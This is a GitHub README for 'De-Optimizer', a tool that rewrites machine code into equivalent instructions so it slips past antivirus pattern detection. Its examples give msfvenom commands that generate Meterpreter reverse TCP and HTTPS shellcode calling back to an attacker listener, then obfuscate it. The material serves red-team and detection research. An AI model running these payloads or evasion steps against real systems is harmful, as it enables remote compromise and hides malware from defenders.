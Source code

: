 # De-Optimizer
<div align="center">
  <img src=".github/img/banner.png">
  <br>
  <br>


  [![GitHub All Releases][release-img]][release]
  [![Build][workflow-img]][workflow]
  [![Issues][issues-img]][issues]
  [![Crates][crates-img]][crates]
  ![Docker Pulls][docker-pulls]
  [![License: MIT][license-img]][license]
</div>

[crates]: https://crates.io/crates/deoptimizer
[crates-img]: https://img.shields.io/crates/v/deoptimizer
[release]: https://github.com/EgeBalci/deoptimizer/releases
[release-img]: https://img.shields.io/github/v/release/EgeBalci/deoptimizer
[downloads]: https://github.com/EgeBalci/deoptimizer/releases
[downloads-img]: https://img.shields.io/github/downloads/EgeBalci/deoptimizer/total?logo=github
[issues]: https://github.com/EgeBalci/deoptimizer/issues
[issues-img]: https://img.shields.io/github/issues/EgeBalci/deoptimizer?color=red
[docker-pulls]: https://img.shields.io/docker/pulls/EgeBalci/EgeBalci?logo=docker&label=docker%20pulls
[license]: https://raw.githubusercontent.com/EgeBalci/deoptimizer/master/LICENSE
[license-img]: https://img.shields.io/github/license/EgeBalci/deoptimizer.svg
[google-cloud-shell]: https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/EgeBalci/deoptimizer&tutorial=README.md
[workflow-img]: https://github.com/EgeBalci/deoptimizer/actions/workflows/main.yml/badge.svg
[workflow]: https://github.com/EgeBalci/deoptimizer/actions/workflows/main.yml
[moneta-ref]: https://github.com/forrest-orr/moneta
[pe-sieve-ref]: https://github.com/hasherezade/pe-sieve
[insomnihack]: https://www.youtube.com/watch?v=Issvbst_89I


This tool is a machine code de-optimizer. By transforming/mutating the machine code instructions to their functional equivalents it makes possible to bypass pattern-based detection mechanisms used by security products.

## Why?
Bypassing security products is a very important part of many offensive security engagements. The majority of the current AV evasion techniques used in various different evasion tools, such as packers, shellcode encoders, and obfuscators, are dependent on the use of self-modifying code running on RWE memory regions. Considering the current state of security products, such evasion attempts are easily detected by memory analysis tools such as [Moneta](https://github.com/forrest-orr/moneta) and [Pe-sieve](https://github.com/hasherezade/pe-sieve). This project introduces a new approach to code obfuscation with the use of machine code de-optimization. It uses certain mathematical approaches, such as arithmetic partitioning, logical inverse, polynomial transformation, and logical partitioning, for transforming/mutating the instructions of the target binary without creating any recognizable patterns. The tool is capable of transforming the instructions of a given binary up to ~95% by using the mentioned de-optimization tricks.

**Watch the presentation for more...**

## Installation

**Download the pre-built release binaries [HERE](https://github.com/EgeBalci/deoptimizer/releases).**

[![Open in Cloud Shell](.github/img/cloud-shell.png)](google-cloud-shell)

***From Source***
```
cargo install deoptimizer
```

***Docker Install***

[![Docker](http://dockeri.co/image/egee/deoptimizer)](https://hub.docker.com/r/egee/deoptimizer/)

```bash
docker run -it egee/deoptimizer -h
```

## Usage

```
Machine code deoptimizer.

Usage: deoptimizer [OPTIONS]

Options:
  -a, --arch <ARCH>                     Target architecture (x86/arm) [default: x86]
  -f, --file <FILE>                     target binary file name [default: ]
  -o, --outfile <OUTFILE>               output file name [default: ]
  -s, --source <SOURCE>                 source assembly file [default: ]
      --syntax <SYNTAX>                 assembler formatter syntax (nasm/masm/intel/gas) [default: keystone]
  -b, --bitness <BITNESS>               bitness of the binary file (16/32/64) [default: 64]
  -A, --addr <ADDR>                     start address in hexadecimal form [default: 0x0000000000000000]
      --skip-offsets <SKIP_OFFSETS>...  File offset range for skipping deoptimization (eg: 0-10 for skipping first ten bytes)
  -c, --cycle <CYCLE>                   total number of deoptimization cycles [default: 1]
  -F, --freq <FREQ>                     deoptimization frequency [default: 0.5]
      --transforms <TRANSFORMS>         allowed transform routines (ap/li/lp/om/rs) [default: ap,li,lp,om,rs]
      --allow-invalid                   allow processing of invalid instructions
  -v, --verbose                         verbose output mode
      --debug                           debug output mode
  -h, --help                            Print help
  -V, --version                         Print version
```

#### Examples

- Generate and de-optimize a 64 bit Metasploit reverse TCP shellcode
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -o shellcode 
deoptimizer -a x86 -b 64 -F 1 -f /tmp/shellcode
```
- Generate and de-optimize a 64 bit Metasploit reverse HTTP(S) shellcode

> [!WARNING]  
> Some shellcodes may cointain string values that needs to be skipped! In such cases the string offsets needs to be specified using the `--skip-offsets` parameter.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.10 LPORT=8080 -o shellcode 
deoptimizer -a x86 -b 64 -F 1 --skip-offsets 275-287 324-574  -f /tmp/shellcode
```

## Currently Supported Architectures

- ✅ `Supported`
- 🚧 `In progress`
- ❌ `Unsupported`

|  **Architecture** | **32** | **64** |
|:-----------------:|:------:|:------:|
|      **x86**      |   ✅   |   ✅   |
|      **ARM**      |   ❌   |   🚧   |
|     **RISCV**     |   ❌   |   🚧   |

## TO DO 
- [ ] PE file support.
- [ ] ELF file support
- [ ] Mach-O file support.
- [ ] ARM architecture support.
- [ ] RISC5 architecture support.
